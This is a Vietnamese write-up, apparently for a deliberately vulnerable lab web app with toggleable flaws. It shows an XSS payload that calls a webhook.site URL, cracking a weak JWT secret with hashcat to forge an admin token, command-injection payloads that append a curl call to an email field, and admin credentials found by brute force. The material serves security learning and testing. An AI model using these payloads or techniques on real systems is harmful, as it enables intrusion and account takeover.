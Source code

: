 ## Writeup

### XSS

Đầu tiên vào `/settings` và bật XSS: Yes

![image](https://github.com/user-attachments/assets/e3d22f64-2713-4d4a-9a6c-82eb4faf578c)

Ở phần trang chủ có chức năng `Send messages` cho admin xem

![image](https://github.com/user-attachments/assets/f3b35e9a-47f8-4701-ae93-4078702381ae)

=> Gửi messages: `<img src=1 onerror=fetch("https://webhook.site/8bab6bcd-4a1b-4735-a2e1-5139468d7126")>`

Sau đó admin qua messages check messages, 1 request đến webhook được tạo ra

![image](https://github.com/user-attachments/assets/b99969dd-3ee2-44f9-adb0-f68f0923957a)

XSS xảy ra tại `dangerouslySetInnerHTML`

![image](https://github.com/user-attachments/assets/07f87375-dbde-4570-a629-dcfbfd572d95)


### JWT

![image](https://github.com/user-attachments/assets/12f422ef-b637-40a5-8a45-ad6e8a6f50c2)

Lỗ hổng JWT này xảy ra do sử dụng secretkey yếu (dễ dàng wordlists)

Mở Kali Linux, sử dụng hashcat:

`hashcat -m 16500 -a 0 <token> <wordlist>`

=> Secretkey là `changeme`

![image](https://github.com/user-attachments/assets/bb95b04c-9914-48b7-bd48-13657e9d8792)

Từ secretkey này + token, vào trang jwt.io để chỉnh các thông tin để vào được tài khoản admin

Nếu status của JWT là No thì sẽ được cấp secretkey phức tạp

![image](https://github.com/user-attachments/assets/946bbc90-34f4-4a38-b48c-508c933d17e4)


### Command Injection

Lỗ hổng này xảy ra ở chức năng subscribe

![image](https://github.com/user-attachments/assets/90868d37-037b-43ae-9953-065d2f82f492)

![image](https://github.com/user-attachments/assets/49f817bc-a19c-4857-80cf-0938f6050cf6)

Payload

__Windows__

```
attacker@example.com & C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe curl https://webhook.site/8bab6bcd-4a1b-4735-a2e1-5139468d7126 & echo hacked
```

__MacOS/Linux__

```
attacker@example.com & curl https://webhook.site/8bab6bcd-4a1b-4735-a2e1-5139468d7126 & echo hacked
```

### Authentication

Lỗ hổng này tập trung vào việc bruteforce mật khẩu của tài khoản admin

Tk: `admin@example.com`

Mk: `123456`

Nếu mode No của Authentication: Mk: `H@123456`
